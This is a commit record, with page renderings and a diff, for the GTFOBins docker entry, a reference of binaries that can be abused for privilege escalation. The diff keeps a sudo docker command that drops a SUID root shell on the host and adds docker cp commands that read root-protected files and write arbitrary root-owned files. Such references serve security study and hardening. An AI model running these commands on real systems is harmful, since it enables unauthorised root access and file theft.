

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/docker.md, in a window 1280 px wide. Shown: the whole page at 90% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
add sudo docker cp command for arbitrary file reads and writes

```diff
--- a/_gtfobins/docker.md
+++ b/_gtfobins/docker.md
@@ -1,13 +1,25 @@
 ---
-description: |
-  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
 functions:
   sudo:
-    - code: |
+    - description: Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
+      code: |
         sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
             sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
+    - description: Read any file by copying it to an existing container and back to a new location on the host.
+      code: |
+        CONTAINER_ID=existing-docker-container
+        sudo docker cp /root/protected.txt $CONTAINER_ID:/tmp/file.txt
+        sudo docker cp $CONTAINER_ID:/tmp/file.txt /home/user/file.txt
+        cat /home/user/file.txt
+    - description: Write any file by copying it to an existing container and back to the target destination on the host. The file will be owned by root.
+      code: |
+        CONTAINER_ID=existing-docker-container
+        echo "sensitive config" > /tmp/file.txt
+        sudo docker cp /tmp/file.txt $CONTAINER_ID:/tmp/file.txt
+        sudo docker cp $CONTAINER_ID:/tmp/file.txt /target/destination.txt
   suid:
-    - code: |
+    - description: Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
+      code: |
         ./docker run --rm -v /home/$USER:/h_docs ubuntu \
             sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
 ---
```
